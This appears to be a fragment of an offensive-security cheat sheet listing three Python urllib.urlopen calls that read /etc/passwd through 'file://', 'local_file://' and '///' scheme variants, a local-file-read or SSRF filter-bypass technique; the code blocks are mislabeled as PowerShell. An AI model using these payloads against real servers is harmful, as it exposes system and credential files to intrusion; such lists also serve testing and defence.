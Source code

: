 ### file
```powershell
urllib.urlopen("file:///etc/passwd")
```
### local_file
```powershell
urllib.urlopen("local_file:///etc/passwd")
```
### //
```powershell
urllib.urlopen("///etc/passwd")
```
